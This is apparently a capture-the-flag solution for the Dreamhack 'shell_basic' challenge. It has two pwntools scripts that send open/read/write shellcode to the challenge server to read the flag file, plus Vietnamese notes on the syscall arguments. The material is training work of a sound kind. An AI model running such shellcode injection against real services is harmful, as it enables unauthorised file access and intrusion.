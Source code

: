 ```
from pwn import *

p = remote('host1.dreamhack.games', 10499)

context(arch="amd64", os="linux")

p.recvuntil('shellcode: ')

payload = ""
payload += shellcraft.pushstr("/home/shell_basic/flag_name_is_loooooong")
payload += shellcraft.open("rsp",0,0)
payload += shellcraft.read("rax", "rsp", 36)
payload += shellcraft.write(1, "rsp", 36)

p.sendline(asm(payload))
print(p.recv(4096))
```


```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./shell_basic',checksec=False)
context.arch = "amd64"

#p = process(exe.path)
p = remote('host3.dreamhack.games',18971)

io = '/home/shell_basic/flag_name_is_loooooong'

shellcode = shellcraft.open(io)
shellcode += shellcraft.read('rax','rsp',0x80)
shellcode += shellcraft.write(1,'rsp', 0x80)    
    
payload = asm(shellcode)

p.sendafter(b'shellcode: ',payload)

p.interactive()


write dc truyền tham số lần lượt là 1, con trỏ, size
read thì dc truyền 0x0, con trỏ, size nhưng nếu arg1 truyền 0x0 thì ta phải thao tác thêm tham số bên ngoài nên arg1 truyền thành thanh ghi rax luôn
open thì chắc cần truyền đường dẫn file
con trỏ nên là rsp (…stack pointer)
ngoài ra ta phải định dạng kiến trúc hợp ngữ asm là amd64 trong script
```

----------
